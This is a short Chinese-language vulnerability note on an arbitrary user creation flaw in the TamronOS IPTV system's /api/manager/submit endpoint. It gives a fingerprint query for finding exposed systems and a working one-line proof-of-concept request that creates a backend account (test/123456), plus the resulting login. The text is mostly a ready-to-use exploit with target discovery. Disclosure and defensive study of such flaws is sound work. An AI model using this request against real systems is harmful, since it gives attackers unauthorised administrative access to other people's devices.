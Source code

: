 # 

# TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

```
TamronOS IPTV系统
```

## 网络测绘

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](./images/202202101926166.png)



漏洞POC为



```plain
/api/manager/submit?group=1&username=test&password=123456
```



![](./images/202202101926524.png)



```plain
user: test
pass: 123456
```



![](./images/202202101926288.png)
